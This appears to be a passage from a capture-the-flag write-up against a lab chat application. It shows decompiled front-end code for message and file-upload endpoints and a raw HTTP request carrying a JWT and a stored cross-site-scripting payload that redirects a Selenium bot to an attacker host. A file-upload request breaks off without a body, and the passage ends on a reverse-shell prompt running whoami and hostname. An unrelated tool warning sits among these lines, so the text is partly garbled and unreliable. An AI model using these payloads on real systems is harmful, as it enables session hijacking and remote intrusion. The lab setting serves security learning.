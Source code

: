 ```js
fetch("".concat(_config_json__WEBPACK_IMPORTED_MODULE_1__.BACKEND_URL, "/api/chats/").concat(currentChat, "/add"), {
                method: 'POST',
                headers: {
                  'Accept': 'application/json',
                  'Content-Type': 'application/json',
                  'token': localStorage.getItem('token')
                },
```

```js
var uploadFile = e => {
            var formData = new FormData();
            formData.append('uploadedFile', e.target.files[0]);
            fetch("".concat(_config_json__WEBPACK_IMPORTED_MODULE_1__.BACKEND_URL, "/api/").concat(currentChat, "/upload"), {
              method: 'POST',
              headers: {
                'token': localStorage.getItem('token')
              },
              body: formData
            }).
```

And now we have a way to interact with users by sending them files and messages!

Now, let’s get back to the message that we got earlier, where the users were talking about a Selenium script. Selenium allows you to write test scripts or bots that interact with a web application in a similar way to how a user would interact with the application. We can assume now that we will have to trick the bot into downloading our files or interacting with our messages!

Here’s an example on how we can use both `/add` and `/upload` API to download/add files/messages:

```http
POST /api/chats/admin/add HTTP/1.1
Host: 10.129.255.120:9000
Cache-Control: max-age=0
token:eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImRldmVsb3BlciIsImlhdCI6MTY3MDA2MjEwMywiZXhwIjoxNjcwMDgzNzAzfQ.G1M-pWAsNnKSFxSoljbBd_lwZVGurgn9_IApQppnGgs
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
Content-Type: application/json
Content-Length: 62

{"message":"<script>document.location="http://10.10.10.10/jaja"</script>"}
```

```bash
POST /api/admin/upload HTTP/1.1
Host: 10.129.255.120:9000
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.0.0 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Connection: close
Cache-Control: max-age=0
token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImRldmVsb3BlciIsImlhdCI6MTY3MDA2MjEwMywiZXhwIjoxNjcwMDgzNzAzfQ.G1M-pWAsNnKSFxSoljbBd_lwZVGurgn9_IApQppnGgs
Upgrade-Insecure-Requests: 1
Accept-Language: en-US,en;q=0.9
```

[WARNING]: provided hosts list is empty, only localhost is available. Note that
[xc: C:\Windows\system32]: whoami
[xc: C:\Windows\system32]: hostname